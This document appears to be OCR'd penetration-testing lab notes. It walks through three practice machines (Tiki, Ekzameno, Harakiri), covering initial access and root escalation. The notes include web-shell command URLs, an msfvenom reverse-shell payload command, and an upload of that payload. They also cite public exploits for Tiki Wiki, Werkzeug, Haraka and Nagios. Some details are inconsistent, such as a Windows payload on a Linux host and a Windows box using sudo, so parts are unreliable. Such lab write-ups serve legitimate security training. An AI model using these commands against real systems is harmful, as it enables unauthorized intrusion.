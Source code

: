 ```bash
Tiki (.67)
```
Operating SystemLinux
Points20
Similar Machine (User)
Similar Machine (Root)
Exploit in Getting User
1. Directory brute force port 8080
2. Tiki Wiki 15.1 - File Upload - https://www.exploit-db.com/exploits/40053
3. Run the exploit and access
http://192.168.27.83:8080/tiki/vendor_extra/elfinder/files/evil.php
1. Execute commands:
http://192.168.27.83:8080/tiki/vendor_extra/elfinder/files/evil.php?fexec=whoami
1. msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.XX.XX LPORT=4444 -f
exe -o mrev.exe
1. http://192.168.27.83:8080/tiki/vendor_extra/elfinder/files/evil.php?fupload=mrev.exe
2. User shell!
Privilege Escalation to Root
1. SentryHD 02.01.12e - Local Privilege Escalation -
https://www.exploit-db.com/exploits/41090
1. Root shell!

```bash
Ekzameno (.67)
```
Operating SystemLinux
Points20
Similar Machine (User)HackTheBox’s Joker
Similar Machine (Root)HackTheBox’s Joker
Exploit in Getting User
1. Port 5000 is open and vulnerable to https://github.com/its-arun/Werkzeug-Debug-RCE
2. Use the exploit
3. User shell!
Privilege Escalation to Root
1. sudo -l
sudoedit /var/www/html/werkzeug-master/examples/*/*/layout.html
1. https://www.exploit-db.com/exploits/37710
2. Root shell!

```bash
Harakiri (.81)
```
Operating SystemWindows
Points25
Similar Machine (User)HackTheBox’s RedCross
Similar Machine (Root)
Exploit in Getting User
1. Target machine has a service called Haraka smtpd 2.8.8 which is vulnerable to RCE -
https://www.exploit-db.com/exploits/41162
1. Update the port in exploit to point it to target machine’s smtp port
2. Get Reverse Shell - python 41162.py -m TARGET_IP -t root@haraka.test -c "reverse shell
here"
1. User shell!
Privilege Escalation to Root
1. Run sudo -l
2. Check the version of nagios - /usr/local/nagios/bin/nagios --version
3. Nagios is vulnerable to Root Privilege Escalation -
https://gist.github.com/xl7dev/322b0f85dc9f6a06573302c7de4f4249
1. Run the exploit - bash nagios-root-privesc.sh /usr/local/nagios/var/nagios.log
2. Root shell!
